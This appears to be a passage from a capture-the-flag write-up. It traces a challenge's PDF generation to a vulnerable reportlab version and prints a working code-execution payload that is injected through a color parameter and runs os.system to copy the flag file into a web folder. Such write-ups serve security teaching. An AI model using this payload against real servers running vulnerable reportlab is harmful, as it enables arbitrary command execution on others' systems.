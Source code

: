 ```py
    table.setStyle(TableStyle([
        ("BACKGROUND", (0, 0), (-1, 0), colors.grey),
        ("TEXTCOLOR", (0, 0), (-1, 0), colors.whitesmoke),
        ("ALIGN", (0, 0), (-1, -1), "CENTER"),
        ("FONTNAME", (0, 0), (-1, 0), "Helvetica-Bold"),
        ("BOTTOMPADDING", (0, 0), (-1, 0), 12),
        ("BACKGROUND", (0, 1), (-1, -1), colors.beige),
        ("GRID", (0, 0), (-1, -1), 1, colors.black)
    ]))
    self.content.append(table)


  def get_document_template(self, stream_file):
    return SimpleDocTemplate(stream_file)


  def build_document(self, document, content, **props):
    document.build(content, **props)


  def convert(self, html, data):
    doc = self.get_document_template(self.stream_file)
    self.add_paragraph(html)
    self.add_table(data)
    self.build_document(doc, self.content)
    return self.stream_file
```

We can see that the library reportlab is used to convert the html to a pdf file.

```
cryptography==41.0.4
Flask==3.0.0
PyJWT==2.8.0
python-dotenv==1.0.0
bcrypt==4.0.1 
reportlab==3.6.12
SQLAlchemy==2.0.21
```

By looking at the `requirements.txt` file we can verify that the used version of reportlab has a known exploit [https://security.snyk.io/vuln/SNYK-PYTHON-REPORTLAB-5664897](https://security.snyk.io/vuln/SNYK-PYTHON-REPORTLAB-5664897).

```py
[ [ getattr(pow,Word('__globals__'))['os'].system('cp /flag.txt /app/phantom-feed/application/static/') for Word in [orgTypeFun('Word', (str,), { 'mutated': 1, 'startswith': lambda self, x: False, '__eq__': lambda self,x: self.mutate() and self.mutated < 0 and str(self) == x, 'mutate': lambda self: {setattr(self, 'mutated', self.mutated - 1)}, '__hash__': lambda self: hash(str(self)) })] ] for orgTypeFun in [type(type(1))] ] and 'red'
```

Passing the following payload in the color parameter will cause the flag file to be copied to the static folder thus making it readable at `/static/flag.txt`.